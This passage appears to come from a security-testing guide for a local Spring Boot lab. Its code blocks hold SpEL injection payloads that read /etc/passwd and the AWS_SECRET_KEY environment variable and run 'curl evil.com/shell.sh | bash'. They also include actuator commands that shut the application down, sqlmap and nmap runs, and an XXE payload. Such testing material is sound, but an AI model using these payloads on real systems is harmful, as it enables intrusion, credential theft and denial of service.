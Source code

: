 ### SpEL Injection Payloads
```java
// File read
T(java.nio.file.Files).readAllLines(T(java.nio.file.Paths).get("/etc/passwd"))

// Command execution
T(java.lang.Runtime).getRuntime().exec("curl evil.com/shell.sh | bash")

// System property access
T(java.lang.System).getProperty("user.home")
T(java.lang.System).getenv("AWS_SECRET_KEY")
```

### Actuator Exploit
```bash
# Change logging level to DEBUG (exposes sensitive data)
curl -X POST http://localhost:8084/actuator/loggers/org.springframework.security \
  -H "Content-Type: application/json" \
  -d '{"configuredLevel": "DEBUG"}'

# Shutdown application (DoS)
curl -X POST http://localhost:8084/actuator/shutdown
```

## Common Misconfigurations

1. **Actuator endpoints exposed without authentication**
2. **H2 console enabled in production**
3. **Debug/trace logging enabled**
4. **Hardcoded secrets in application.properties**
5. **CORS misconfiguration (allow all origins)**
6. **Spring Security disabled or misconfigured**
7. **DevTools enabled in production**

## Testing Commands

### Automated Scanning
```bash
# Find Spring Boot apps
nmap -p 8080,8081,8082,8083,8084 --script http-title

# Check for actuator
curl http://localhost:8084/actuator

# SQLMap for SQL injection
sqlmap -u "http://localhost:8084/api/users?name=test" --batch

# Check for XXE
curl -X POST http://localhost:8084/parse-xml \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><user>&xxe;</user>'
```
